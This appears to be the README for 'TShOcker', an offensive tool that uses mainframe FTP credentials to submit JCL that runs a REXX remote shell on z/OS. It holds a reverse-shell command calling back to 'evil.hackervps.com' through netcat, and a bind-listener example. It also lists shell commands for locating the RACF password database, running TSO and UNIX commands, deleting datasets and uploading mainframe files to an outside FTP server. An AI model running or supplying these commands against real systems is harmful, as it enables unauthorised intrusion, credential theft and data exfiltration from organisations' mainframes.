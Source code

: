                       .-~*~--,.   .-.
              .-~-. ./OOOOOOOOO\.'OOO`9~~-.
            .`OOOOOO.OOM.OLSONOOOOO@@OOOOOO\
           /OOOO@@@OO@@@OO@@@OOO@@@@@@@@OOOO`.
           |OO@@@WWWW@@@@OOWWW@WWWW@@@@@@@OOOO).
         .-'OO@@@@WW@@@W@WWWWWWWWOOWW@@@@@OOOOOO}     
        /OOO@@O@@@@W@@@@@OOWWWWWOOWOO@@@OOO@@@OO|
       lOOO@@@OO@@@WWWWWWW\OWWWO\WWWOOOOOO@@@O.'
        \OOO@@@OOO@@@@@@OOW\|||||\WWWW@@@@@@@O'.
         `,OO@@@OOOOOOOOOOWW\|||||\WWWW@@@@@@OOO)
          \,O@@@@@OOOOOOWWWWW\|||||\WW@@@@@OOOO.'
            `~c~8~@@@@WWW@@W\|||||||\WOO|\UO-~'
                 (OWWWWWW@/\W\|||||||\WO)
                   `~-~''     \|||\WW=*'
                             __\|||\
                             \||||||\
                              \||||__\
              TShOcker         \||\
                                \|\
                                 \|\
                                  \\
                                   \\
                                    \
                                     \

TShOcker
========

A REXX script (CATSO) wrapped in JCL, enveloped in Python. CATSO is a rexx script meant to act like a mini command interpreter for TSO and UNIX but accessible through a simple netcat and/or any TCP bind (like metasploit). Using FTP (and JES mode) this script generates the necessary JCL needed to execute the rexx script in a temporary dataset. All you need to do is get a mainframe FTP username and password and you're good to go. 


Example
========

Reverse Connection
--------------------
Terminal 1: nc -l -p 31337

Terminal 2: ./TShOcker.py -r --rhost evil.hackervps.com --rport 31337 mainframe.ftp.corp.com jsmith dumbpass

Listener
--------
./TShOcker.py -l --lport 31337 mainframe.ftp.corp.com jsmith dumbpass

nc mainframe.ftp.corp.com 31337

Enter command or 'help'> help

Core Commands
=============

* help              Help Menu
* exit              Terminate the session
* quit              Terminate the session


Filesystem Commands
===================

* cat               Show contents of dataset
* cp                copies a file to a new file
* ls                list datasets in HLQ
* delete            deletes a file
* del               also deletes a file
* lsmem             Lists files and members
                     !!WARNING!! Takes time and IO


Networking Commands
===================

* ipconfig          Display interfaces
* ifconfig          Display interfaces


System Commands
===============

* getuid            Get current user name
* sysinfo           Remote system info (i.e OS)
* racf              Show password database location
* execute           Execute a TSO command
* tso               Execute TSO command (same as execute)
* unix              UNIX command (i.e ls -al)
* ftp               Upload a file from the mainframe to an FTP server. Syntax: host/ip user pass filename [binary]

